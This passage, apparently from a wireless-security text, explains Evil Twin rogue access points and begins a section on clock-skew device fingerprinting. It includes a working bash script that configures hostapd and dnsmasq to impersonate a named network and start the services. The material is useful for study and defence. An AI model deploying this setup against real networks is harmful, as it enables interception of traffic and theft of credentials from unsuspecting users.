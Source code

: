 Evil Twin attacks represent perhaps the most comprehensive form of WiFi deception—creating rogue access points that perfectly mimic legitimate networks in name, appearance, and sometimes even signal characteristics. These attacks combine multiple techniques: access point impersonation through forged beacons, client deauthentication to force reconnection, DHCP servers to provide network configuration, and often captive portals for credential harvesting. The most sophisticated implementations include DNS manipulation and traffic capture capabilities, creating a complete man-in-the-middle position.

Setting up such an attack requires specific hardware: WiFi adapters supporting AP mode, often a secondary adapter for maintaining internet connectivity to avoid detection, and sufficient processing power for real-time traffic manipulation. The technical implementation involves configuring several interconnected services:

```bash
# Setup for Evil Twin using hostapd and dnsmasq
# Create hostapd configuration
cat > hostapd.conf << EOF
interface=wlan0
driver=nl80211
ssid=TargetNetwork
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
EOF

# Configure DHCP server
cat > dnsmasq.conf << EOF
interface=wlan0
dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h
dhcp-option=3,192.168.1.1
dhcp-option=6,192.168.1.1
server=8.8.8.8
log-queries
EOF

# Start services
hostapd hostapd.conf -B
dnsmasq -C dnsmasq.conf -d
```

These scripts transform an ordinary computer into a convincing counterfeit access point that can intercept all traffic from connected clients. While security measures like HTTPS and certificate validation provide some protection for encrypted websites, many applications and services remain vulnerable to such interception.

### Physical Layer Identification

Beyond the intended communication data, RF signals contain a wealth of unintentional characteristics that can uniquely identify hardware devices.

```
Clock Skew Fingerprinting Process

┌────────────┐     ┌────────────┐     ┌────────────┐     ┌────────────┐
│ Capture    │     │ Extract    │     │ Calculate  │     │ Compare to │
│ Beacon     │ → │ Timestamp  │ →  │ Clock Skew │ →  │ Reference  │
│ Frames     │     │ Field      │     │ Pattern    │     │ Database   │
└────────────┘     └────────────┘     └────────────┘     └────────────┘
```

